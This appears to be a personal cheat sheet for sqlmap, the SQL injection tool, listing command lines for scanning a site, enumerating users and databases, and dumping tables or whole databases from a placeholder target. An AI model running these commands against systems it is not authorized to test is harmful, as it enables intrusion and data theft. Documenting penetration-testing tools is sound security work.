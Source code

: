 ## Scope: Automatic SQL injection and database takeover tool.

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

<mark style="background: #FF5582A6;">Source</mark>:   https://github.com/sqlmapproject/sqlmap
Environment:  Python

<mark style="background: #FF5582A6;">Installation</mark>:  
***Pre-installed in Kali Linux

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## <mark style="background: #FF5582A6;">Example usages</mark>

To get a list of basic options and switches:
```
python sqlmap.py -h
```

To get a list of all options and switches:
```
python sqlmap.py -hh
```

### <mark style="background: #D2B3FFA6;">Vulnerability Finding</mark>

### <mark style="background: #FFF3A3A6;">ALL IN ONE</mark>
```
sqlmap -u url.com --threads 5 --level 5 --risk 3 --v 1 --batch
```
 
***Auto Select default features
```
sqlmap -u url.com/news.php?id=1 --batch
```

***Crawling the URL 
```
sqlmap -u url.com --crawl depth --batch
```

***Union attack

```
sqlmap -u url.com --crawl 5 --technique="U" --batch
```

***Thread ---using multiple connection for faster result, default 1, [range= 1 to 10]
```
sqlmap -u url.com --crawl 5 --threads [1 to 10] --batch
```
 
***Risk -- harm level of payloads used, default 1, [range=1 to 3]

```
sqlmap -u url.com --crawl 5 --risk 3
```

***Level -- test in the cookies; default 1, [range=1 to 5]

```
sqlmap -u url.com --crawl 5 --level 5
```

***Verbosity , default 0,[range=0 to 6]
```
sqlmap -u url.com --crawl 5 --batch --v 6
```

### <mark style="background: #D2B3FFA6;">Post Exploitation</mark>

***User Enumeration; after finding a vulnerable parameter

```
sqlmap -u url.com/news.php?id=1 --current-user --batch
```

```
sqlmap -u url.com/news.php?id=1 --hostname --batch
```

***Getting current database name
```
sqlmap -u url.com/news.php?id=1 --current-db --batch
```


***Getting tables in database
```
sqlmap -u url.com/news.php?id=1 -D database_name --tables
```

***Getting All columns in a table
```
sqlmap -u url.com/news.php?id=1 -D database_name -T table_name --dump
```

***Getting a specific Column Type in a specific table
```
sqlmap -u url.com/news.php?id=1 -D database_name -T table_name --columns
```

***Getting all tables in a database
```
sqlmap -u url.com/news.php?id=1 -D database_name --dump-all
```

***Getting all database details
```
sqlmap -u url.com/news.php?id=1 --dbs
```

### <mark style="background: #D2B3FFA6;">Saving Output</mark>

```
sqlmap -u url.com --crawl 5 --output-dir="/location/to/save.txt"
```

